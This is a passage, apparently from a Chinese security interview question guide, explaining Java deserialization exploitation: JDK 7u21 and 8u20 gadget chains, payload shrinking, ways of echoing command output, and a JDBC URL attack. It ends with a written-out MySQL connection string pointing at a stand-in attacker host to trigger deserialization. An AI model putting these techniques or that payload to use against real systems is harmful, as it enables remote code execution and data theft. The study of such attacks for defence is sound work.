 可以看到伪代码最后在`map`中`put`了某个元素，这是为了处理哈希碰撞的问题。`TemplatesImpl`没有重写`hashcode`直接调用`Object`的方法。而代理对象的`hashcode`方法也是会先进入`invoke`方法的，跟入`hashCodeImpl`方法看到是根据传入参数`HashMap`来做的，累加每一个`Entry`的`key`和`value`计算得出的`hashcode`。通过一些运算，可以找到符合条件的碰撞值



### 谈谈8U20反序列化（★★★★★）

这是7U21修复的绕过

在`AnnotationInvocationHandler`反序列化调用`readObject`方法中，对当前`type`进行了判断。之前POC中的`Templates`类型会导致抛出异常无法继续。使用`BeanContextSupport`绕过，在它的`readObject`方法中调用`readChildren`方法，其中有`try-catch`但没有抛出异常而是`continue`继续

所以这种情况下，就算之前的反序列化过程中出错，也会继续进行下去。但想要控制这种情况，不可以用正常序列化数据，需要自行构造畸形的序列化数据



### 了解缩小反序列化Payload的手段吗（★★★）

首先最容易的方案是使用Javassist生成字节码，这种情况下生成的字节码较小。进一步可以用ASM删除所有的LineNumber指令，可以更小一步。最终手段可以分块发送多个Payload最后合并再用URLClassLoader加载



### 谈谈实战中命令执行有哪些回显的办法（★★★★）

首先想到的办法是`dnslog`等技术进行外带，但必须出网，有限制

然后类似内存马的思路，针对指定中间件找`response`对象写入执行结果

尝试写文件，往`web`目录下写，例如`xx.html`可以访问到即可

将命令执行结果抛出异常，然后用`URLClassLoader`加载，达到报错回显

Y4er师傅提到的自定义类加载器配合RMI的一种方式



### 有没有了解过针对`linux`的通杀的回显方式（★★★★）

获取本次`http`请求用到`socket`的文件描述符，然后往文件描述符里写命令执行的结果

但鸡肋的地方在于需要确定源端口，才可以使用命令查到对应的文件描述符，存在反代可能有问题



### 是否存在针对`windows`的通杀的回显方式（★★★★）

原理类似`linux`的通杀回显，在`windows`中`nio/bio`中有类似于`linux`文件描述符这样的句柄文件

遍历`fd`反射创建对应的文件描述符，利用`sun.nio.ch.Net#remoteAddress`确认文件描述符有效性，然后往里面写数据实现回显



### 是否了解JDBC Connection URL攻击（★★★）

如果我们可以控制`JDBC URI`就可将`JDBC`连接地址指向攻击者事先准备好的恶意服务器，这个服务器可以返回恶意的序列化数据

指定`autoDeserialize`参数为`true`后`MySQL`客户端就可以自动反序列化恶意Payload

使用`ServerStatusDiffInterceptor`触发客户端和服务端的交互和反序列化

```text
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```
